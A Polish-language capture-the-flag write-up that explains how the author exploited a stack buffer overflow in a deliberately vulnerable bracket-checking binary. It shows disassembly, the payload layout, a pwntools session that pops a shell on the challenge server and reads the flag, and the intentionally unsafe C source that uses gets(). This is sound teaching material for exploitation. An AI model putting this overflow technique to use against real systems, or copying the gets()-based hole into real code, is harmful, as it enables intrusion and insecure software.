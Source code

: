 # Nawias się musi zgadzać (pwn) 150pts
## Mateusz Maciejewski
## [Original writeup](https://github.com/AltairQ/writeups/tree/master/hack.cert/pwn/Nawias%20się%20musi%20zgadzać)
```
W ramach programu Nowoczesne Państwo uruchomiliśmy w klastrze cyberbezpieczeństwa usługę pozwalającą sprawdzić czy wyrażenie jest poprawnie onawiasowane. Sprawdź czy Twoje wyrażenia są poprawnie onawiasowane, i nie próbuj się włamywać, bo i tak Ci się to nie uda!

Program jest do pobrania stąd.

nc pwning2016.p4.team 1337

Format flagi: pwn{litery_cyfry_i_znaki_specjalne}
```
Dostajemy zapakowaną binarkę `brackets`

```
$ file brackets
brackets: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1a898791e079253916e3678874d6f13bd0054743, not stripped
```

Szybkie testowe uruchomienie:
```
$ ./brackets
Enter expression to check:
((()))))))))
Missing opening bracket!
```

Jak widać zachowuje się tak, jak się spodziewaliśmy. Szybkie wrzucenie w IDA pokazuje dość prosty schemat najbardziej interesującej funkcji:

![overview](img/graph%20overview.png)

```assembly
public check_my_brackets
check_my_brackets proc near

var_80= byte ptr -80h
var_10= qword ptr -10h
var_4= dword ptr -4

push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_4], 0
lea     rax, [rbp+var_80]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+var_80]
mov     [rbp+var_10], rax
jmp     short loc_40069F
```

Natychmiastowo uwagę przykuwa użycie niebezpiecznej funkcji `gets`. Można się spodziewać że mamy doprowadzić do przepełnienia bufora i nadpisania adresu powrotu. Jeżeli chodzi o cel przekierowania wykonania, to twórcy zostawili nam miły prezent w postaci funkcji `shell_me` która spawnuje nam shella. Sprawdźmy więc adresy obecnej i docelowej funkcji.

```
$ readelf -s brackets

Symbol table '.symtab' contains 72 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
...
    48: 0000000000400638   143 FUNC    GLOBAL DEFAULT   14 check_my_brackets
...
    54: 00000000004005f6    66 FUNC    GLOBAL DEFAULT   14 shell_me

```

Widać że są dość blisko siebie a co lepsze nie posiadają bajtów zerowych we fragmencie który musimy nadpisać (little-endian!).

Chcielibyśmy już teraz nadpisać adres powrotu ale dalsza analiza pokazuje że to nie zadziała. Zwróćmy uwagę na to w jaki sposób kończy się nasza funkcja.

![exits](img/exits.png)

Tylko poprawne zakończenie (skrajnie prawy blok) algorytmu prowadzi do powrotu, w przeciwnym razie uruchamiany jest `exit` więc podmiana adresu nic nie da. Problemem jest 32-bitowa zmienna `var_4` która reprezentuje bilans nawiasów otwierających i zamykających. Żeby algorytm stwierdził że nawiasowanie jest poprawne to w szczególności na końcu musi ona wynosić 0. ~~Nie możemy po prostu wkleić bajtów zerowych w payload bo `gets` tego nie wczyta~~ (EDIT: Jednak się myliłem, `gets` bez problemu czyta bajty zerowe. W każdym razie wersja bez bajtów zerowych jest często wymagana, więc opłaca się poćwiczyć różne sposoby). Trik polega na tym że oprócz nadpisania surowej wartości bilans możemy jeszcze potem zmodyfikować podając nawiasy. Plan jest prosty - ustawmy bilans na `INT_MAX` i podajmy jeden nawias, żeby przekręcił się na 0.

Payload będzie miał następujący schemat
```
'(' + FF * ??? + F60540 + '\n'
```

Znak zmiany linii zostanie zamieniony na bajt zerowy, więc adres będzie się zgadzał.


Bufor jest pod adresem `rbp-128`, po drodze jest jeszcze stare `rbp` (8 bajtów) więc potrzebujemy paddingu na 136 bajty, po tym już jest adres powrotu. Zatem ostateczny payload wygląda następująco:
```
b'(' + b'\xFF'*135 + '\xF6\x05\x40'
```

Enter możemy sami wcisnąć.
Teraz czas przetestować na zdalnym serwerze.

```python
>>> from pwn import *
>>> conn = remote("pwning2016.p4.team", 1337)
>>> conn.send("(\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xf6\x05\x40")
>>> conn.interactive()
[*] Switching to interactive mode
Enter expression to check:
(^E@
whoami
brackets
ls
brackets  brackets.c  exploit.py  flag
cat flag
pwn{b1n4ry_expl01t1ng}
```

## BONUS 

Dump reszty plików!

`exploit.py`

```python
exploit = ''.join(["()" for i in range(62)])+"\x00\x00\x00\x00AAAAAAAA\xf6\x05\x40\x00"

from pwn import *

r = process('./brackets')
r.recvline()
r.sendline(exploit)
r.interactive()
```

`brackets.c`

```c
#include <stdlib.h>
#include <stdio.h>

#define FAIL(s) printf(s), exit(1)

void shell_me()
{
        char *filename = "/bin/sh";
        char *argv [2] = {filename, NULL};
        char *envp [1] = {NULL};
        execve(filename, argv, envp);
}

void check_my_brackets()
{
    int level = 0;
        char str[100];

        gets(str);
        for(char* s = str;*s;++s)
        {
                if(*s == '(')
                        level++;
                if(*s == ')')
                {
                        level--;
                        if(level < 0)
                                FAIL("Missing opening bracket!\n");
                }
        }

        if(level)
                FAIL("Missing closing bracket!\n");
        return;
}

int main()
{
        printf("Enter expression to check:\n");
        check_my_brackets();
        printf("Correct!\n");
        return 0;
}
```